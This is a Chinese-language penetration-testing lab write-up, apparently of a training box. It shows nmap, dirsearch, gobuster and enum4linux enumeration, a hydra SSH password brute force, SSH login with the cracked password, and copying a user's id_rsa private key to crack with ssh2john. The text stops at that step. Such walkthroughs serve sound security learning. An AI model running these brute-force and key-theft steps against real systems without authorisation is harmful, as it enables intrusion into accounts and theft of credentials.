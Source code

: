 # 基础渗透测试

使用nmap进行扫描查看开启了什么服务

```
nmap -sV -T4 10.10.121.121
```

![image-20231130172423327](../图片/image-20231130172423327.png)

使用nmap扫描发现，开启了ssh，http，netbios-ssn ajp13服务

发现了http服务，使用目录扫描工具dirsearch

```
dirsearch -u  http://10.10.121.121 -t 10
```

![image-20231130174549582](../图片/image-20231130174549582.png)

也可以用gobuster进行目录扫描

```
gobuster dir -u http://10.10.143.178 -w 字典
```

![image-20231203163506492](../图片/image-20231203163506492.png)

扫描出web服务隐藏的目录：development

在目录下的文档找到了服务器开启了SMB服务（文件共享服务）并且版本为2.5.12

![image-20231203164036088](../图片/image-20231203164036088.png)

使用enum4linux找到用户名

```
enum4linux -a -o 10.10.143.178
```

![image-20231203172413224](../图片/image-20231203172413224.png)

找到用户信息：kay，jan

![image-20231203172327049](../图片/image-20231203172327049.png)

使用hydra进行爆破ssh

```
hydra -l jan -P /home/gary/文档/字典/pass_weak18000.txt -vV -o ssh.log -e ns 10.10.54.237 ssh
```

爆破出密码为：armando

![image-20231203230703073](../图片/image-20231203230703073.png)

使用ssh登陆到服务器

```
ssh 10.10.223.84 -l jan
```

在服务器上发现了id_rsa把它复制下来



使用ssh2john把id_rsa转为hash

```
python3 ssh2john.py idrsa.id_rsa > idrsa.id_rsa_hash.txt
```

![image-20231204210734191](../图片/image-20231204210734191.png)
